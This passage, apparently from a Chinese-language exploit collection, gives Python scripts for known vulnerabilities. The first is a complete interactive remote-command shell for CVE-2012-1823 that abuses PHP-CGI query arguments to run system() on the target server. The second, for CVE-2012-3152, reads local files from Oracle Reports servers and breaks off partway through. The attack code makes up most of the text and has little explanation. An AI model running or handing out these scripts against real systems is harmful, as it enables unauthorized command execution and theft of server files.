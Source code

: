 `CVE-2012-1823`是一个PHP-CGI远程执行漏洞(Remote Code Execution,RCE):

```python
#!/usr/bin/python

import sys, urllib2

if len(sys.argv) != 2:
    print "Usage: "+sys.argv[0]+" <URL>"
    sys.exit(0)

URL=sys.argv[1]
print "[+] Attempting CVE-2012-1823 - PHP-CGI RCE"

while True:
    command=raw_input("~$ ")
    Host = URL.split('/')[2]      # Parse host from URL: 'http://<host>/' will parse out <host>
    headers = {
        'Host': Host,
        'User-Agent': 'Mozilla',
        'Connection': 'keep-alive'}
    data = "<?php system('"+command+"');die(); ?>"        # PHP to run on the server
    req = urllib2.Request(URL+"?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input", data, headers)

    try:
        response = urllib2.urlopen(req)
        for line in response.readlines():
            print line.strip()
    except Exception as e: print e
```

# <a name='19'>[案例: CVE-2012-3152](#19)</a>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:dart:[回到目录](#toc)

`CVE-2012-3152 Oracle Reports Local File Inclusion (LFI)`:

```python
#!/usr/bin/python

import sys, urllib2

from termcolor import colored   # Need to download python module "termcolor"

if len(sys.argv) != 2:
    print "Usage: "+sys.argv[0]+" <URL>"
    sys.exit(0)

URL=sys.argv[1]
print "[+] Attempting CVE-2012-3152 - Oracle Reports LFI"

while True:
    resource=raw_input(colored("~$ ", "red"))
    req = '/reports/rwservlet?report=test.rdf+desformat=html+destype=' + \
                     'cache+JOBTYPE=rwurl+URLPARAMETER="file:///'+resource+'"'
    try:
```